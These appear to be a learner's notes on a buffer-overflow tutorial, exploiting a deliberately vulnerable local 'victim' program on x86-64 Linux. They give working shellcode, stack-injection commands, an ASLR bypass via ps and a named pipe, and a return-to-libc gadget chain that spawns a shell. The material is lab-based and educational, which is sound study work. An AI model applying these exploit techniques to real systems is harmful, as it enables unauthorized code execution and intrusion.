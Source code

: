 
##Some Assembly Required:

shell.c is a simple program to run /bin/sh

##The Shell Game:

objdump shows us where the asm code is in memory.
My addresses are slightly different than his but still take up the same amount of space.

```
00000000004004f1 <needle0>:
  4004f1:	eb 0e                	jmp    400501 <there>

00000000004004f3 <here>:
  4004f3:	5f                   	pop    %rdi
  4004f4:	48 31 c0             	xor    %rax,%rax
  4004f7:	b0 3b                	mov    $0x3b,%al
  4004f9:	48 31 f6             	xor    %rsi,%rsi
  4004fc:	48 31 d2             	xor    %rdx,%rdx
  4004ff:	0f 05                	syscall 

0000000000400501 <there>:
  400501:	e8 ed ff ff ff       	callq  4004f3 <here>
  400506:	2f                   	(bad)  
  400507:	62                   	(bad)  
  400508:	69 6e 2f 73 68 00 ef 	imul   $0xef006873,0x2f(%rsi),%ebp

000000000040050e <needle1>:
```

####xxd 
xxd creates a hexdump of the input file.

##Learn bad C in only 1 hour!

####CDECL

He mentions the CDECL calling convention is the reason we can pull off this buffer overflow attack. After looking it up I think it is due to the fact that in the CDECL convention, the calling function cleans the stack. This allows us to have variable-length argument lists and because of this we can go past the buffer size and put our malicious code in.

##The Three Trials of Code Injection

####setarch
setarch changes the architecture in new program environment. He uses this command with the -R flag which allows us to disable the randomization of the virtual address space.

My arch is x86_64.

####Buffer Location

After disabling the stack protection during compiling and disabling the executable space protection using the execstack command, we run our victim file with the setarch command and see the buffer location.
```
setarch x86_64 -R ./victim
0x7fffffffdc50
What's your name?
Damien
Hello, Damien!
```

####Carrying out the Attack

After getting the buffer location in little endian, we can run the command:
```
((cat shellcode; printf %080d 0; echo $a) | xxd -r -p; cat) | setarch x86_64 -R ./victim
```
This command writes our shellcode into the buffer, fills in the rest of the name buffer with 0's and then puts 8 more 0's in to zero out the base pointer. With the last 8 bytes, we put the address of the beginning of the stack so that the program goes back into the stack and runs our shellcode, thus providing us with a shell to execute as our heart desires.

##The Importance of Being Patched

####ps
ps command on UNIX reports to us a snapshot of the current process. Using the flag -eo allows us to see all processes on the system (e flag) while also allowing us to format the output as we desire (o flag). He asks for the ESP in his command giving us the stack pointers of the processes currently running on the machine.

Once our program is running without ASLR (thanks to the setarch command) we can take a look into the process from another terminal with the command:

```
ps -o cmd,esp -C victim
```

This gives us an output of:
```
CMD                              ESP
./victim                    ffffdbe8
```
This tells us that while the victim program is waiting for user input, the stack pointer is at 0x7fffffdbe8. We can now calculate the distance from this pointer to the name buffer using the location our victim program printed out for us earlier, we find this to be 88.

With this distance we found, we can now defeat ASLR. We can do this because we simply need to find the stack pointer of the process and then add this offset we found. This allows us to put our malicious code right into the place we want it, the character buffer.

####mkfifo

mkfifo is a command that allows us to create a named pipe. This allows the pipe to last beyond the life of the process.

####Attack!

After running the program with ASLR enabled in the named pipe, we can start our attack from a different terminal using this string of commands:
```
$ sp=`ps --no-header -C victim -o esp`
$ a=`printf %016x $((0x7fff$sp+88)) | tac -r -s..`
$ ((cat shellcode; printf %080d 0; echo $a) | xxd -r -p; cat) > pip
```

The first command gets the stack pointer of the victim process. The next gets the address of the character buffer by adding 88 to the stack pointer address and converts this address to little endian. Finally we pull off the attack in the last command by injecting our code.

In this approach we must type the shell commands in the same place we run the last three commands. This is because this is the shell that is taking input in and sending it to our named pipe.


##Executable space perversion

If we re-enable the executable space protection with the command:

```
execstack -c victim
```

We can see that the above attacks don't work anymore. This is because the stack is now marked nonexecutable and thus our shellcode will not be able to run.

Return oriented programming can fix this issue. 

In return oriented programming, the buffer is not filled with code we need to execute anymore, it is instead filled with addresses of pieces of code we want to run. Each snippet of code is ended with a RET instruction. This RET instruction will increment our stack pointer by 8, thus bringing us to the address of a new piece of code. This code now runs and the cycle continues.

A sequence of code ending in RET is called a gadget.

##Go go gadgets

To pull of our attack using rop, we are going to call the system() function with "/bin/sh" as the argument.

First we find libc's compiled libraray file with the comand:

```
locate libc.so
```

Now that we found the proper file, we can search for gadgets in the file using the command:

```
objdump -d /lib/x86_64-linux-gnu/libc.so.6 | grep -B5 ret
```

This command will get us all the snippets of code that end in a RET instruction in the libc.so file.

According to the notes, we want to execute the instructions:

```
pop  %rdi
retq
```

while the pointer to "/bin/sh" is at the top of the stack. As far as I understand, this will assign the pointer to %rdi which will allow us to execute the shell once the stack pointer is advanced.

We need to find these two instructions somewhere in our libc code. To do this we use the command:

```
xxd -c1 -p /lib/x86_64-linux-gnu/libc.so.6 | grep -n -B1 c3 | grep 5f -m1 | awk '{printf"%x\n",$1-1}'
```

This command works by searching the libc code for the corresponding machine code to the instructions we want to execute. After running the command I get 22b9a. This means that at address 0x22b9a the two instructions we want to execute exist. 

Now all we need to do is overwrite our return address with the address of our instructions, the address of "/bin/sh" and finally the address of the system() function. This will guarantee that on the next RET instruction the address of "/bin/sh" will be put into %rdi and the system command will execute the shell.

##More happy returns

While running our victim program in one terminal without ASLR we run the commands:

```
$ pid=`ps -C victim -o pid --no-headers | tr -d ' '`

$ grep libc /proc/$pid/maps
```

The first command gets us the pid of the victim process. The grep command after that allows us to see where libc was loaded into memory for the victim process.

Thanks to our search before, we now know exactly where the instructions we want to execute lie in memory for our victim process. This address is found by adding the location of the instructions in libc to the location where libc was loaded into memory for our victim process. That address winds up being 0x7ffff7a15000 + 0x22b9a.

As to where to put "/bin/sh" we can put it in the beginning of the buffer at location 0x7fffffffdc40 (0x60 needs to be added to this because the new version of Linux organizes the stack differently).

Finally we need the location of the system() function. This can be found by running the command:

```
nm -D /lib/x86_64-linux-gnu/libc.so.6 | grep '\<system\>'
```

We see that the system() function lies at address 0x7ffff7a15000 + 0x46590.

We now have all the pieces to run our attack. We do this by using the following command:

```
(((printf %0144d 0; printf %016x $((0x7ffff7a15000+0x22b9a)) | tac -rs..; printf %016x 0x7fffffffdca0 | tac -rs..; printf %016x $((0x7ffff7a15000+0x46590)) | tac -rs.. ; echo -n /bin/sh | xxd -p) | xxd -r -p) ; cat) | setarch x86_64 -R ./victim
```

After hitting enter a few times we see that we are successfully in a shell!



